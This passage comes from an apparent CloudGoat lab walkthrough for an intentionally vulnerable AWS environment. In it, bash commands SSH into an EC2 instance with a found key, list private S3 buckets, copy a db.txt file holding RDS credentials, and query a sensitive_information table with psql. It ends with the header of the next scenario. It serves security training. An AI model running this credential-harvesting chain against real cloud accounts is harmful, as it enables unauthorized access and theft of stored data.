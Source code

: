 ```bash

# ------------- 4. identify if there is a load balancer or EC2 instance deployed and if we have access to it.
# It’s the same EC2 instance and load balancer identified in Lara’s Path.
aws elbv2 describe-load-balancers --profile $SRC_PROFILE

# But this time we have an SSH key for the EC2 instance.  
# So try connecting to the EC2 instance. But first, change the permission of the SSH key.
chmod 777 key.pub

ssh -i private_key ubuntu@public.ip.of.ec2  



# ------------- 5. in the ec2
sudo apt-get install awscli

# access a private S3 bucket.
aws s3 ls
aws s3 ls s3://<bucket> --recursive

# have access to the last S3 bucket
# finds a “db.txt” contains the login credentials for an RDS database.
aws s3 cp s3://<bucket>/db.txt .
cat db.txt

# list and discover the RDS database
# need the address of the RDS instance.
aws rds describe-db-instances --region us-east-1


# access the RDS database using the credentials and acquires the scenario's goal: the secret text stored in the RDS database!
psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>
# cloudgoat ->
# cloudgoat ->\dt
# cloudgoat ->select * from sensitive_information;
```


![012821-36](https://i.loli.net/2021/02/02/v3LKVyuXNCgrile.png)



---


### Scenarios 7: codebuild_secrets (Large / Hard)


| ++             | ++                                       |
| -------------- | ---------------------------------------- |
| Scenario Goal  | get the SSH keys which grant direct access to the EC2  |
| Size           | Large                                    |
| Difficulty     | Hard                                     |
| Command        | `$ ./cloudgoat.py create codebuild_secrets` |
